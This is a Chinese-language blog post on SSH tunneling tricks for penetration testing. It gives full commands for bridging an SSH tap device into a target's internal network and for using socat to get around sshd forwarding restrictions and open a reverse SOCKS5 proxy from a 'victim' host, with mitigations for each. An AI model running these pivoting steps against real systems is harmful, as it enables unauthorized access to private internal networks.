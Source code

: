 ```yaml
---
title: ssh建立隧道的trick
layout: "post"
---
```


相比直接端口转发或者-D socks5 的一些其他利用

## 利用ssh配置tap网卡

### 优势

工作在数据链路层，能代理arp协议，dhcp协议，icmp协议。内网里利用LLMNR、NBT-NS、WPAD之类的trick都能用了。

### 劣势

在网络条件不佳的情况下数据包常常会有损坏，一般在目标内网里面用比较好。

### 使用限制

目标机器上的root权限

目标机器内网网段交换机允许未知mac入网

### 具体流程

1. 编辑目标机器的`/etc/sshd_config` ,设置`PermitTunnel yes`，重启服务
2. 攻击机执行`sudo ssh -o Tunnel=ethernet -w 0:0 root@192.168.1.100`
3. 在目标服务器上依次运行

```Bash
ip link add br0 type bridge    # 添加桥接网卡
ip link set ens160 master br0  # 目标更深一步内网的网卡名ens160
ip link set tap0 master br0    # tap网卡
ip link set tap0 up            # 开启tap网卡

```

4. 在攻击机上运行

```Bash
ip link set tap0 up # 开启tap网卡
```

5. 在目标服务器上运行

```Bash
ip link set br0 up     # 开启桥接网卡
```

6. （可选）配置攻击机的dns服务器的地址为目标服务器的dns地址

### 修补手段

关闭sshd 服务端 PermitTunnel 配置并重启

交换机配置不允许未知mac入网

## 极端环境下的socks隧道

### 情景

只能ssh进入，所有出网都被封锁，ssh是低权限

目标sshd服务有配置`permitTunnel gatewayports allowTcpForwarding `全部关闭，端口转发，-D socks隧道全部不能用。

### 具体流程

1. 提前准备好socat可执行文件，目标机器上一份（可以scp传上去），本地一份

2. 创建一个脚本tunnel.sh

```Bash
ssh victim@192.168.1.100 "./socat TCP-LISTEN:9001,reuseaddr STDIO"
```

3. 攻击机运行`socat TCP:localhost:22 EXEC:./tunnel.sh`

4. 此时相当于绕过sshd限制做了一个正向的远程端口映射

5. 进入受害者ssh内，运行`ssh -R 1080 -p 9001 attacker@127.0.0.1` 做一个经过代理的远程动态socks5

此时攻击者会开放本地1080端口，通过这个socks5能访问受害者的内网，绕过sshd的防御限制。

### 修补手段

编辑/etc/ssh_config 关闭客户端的端口转发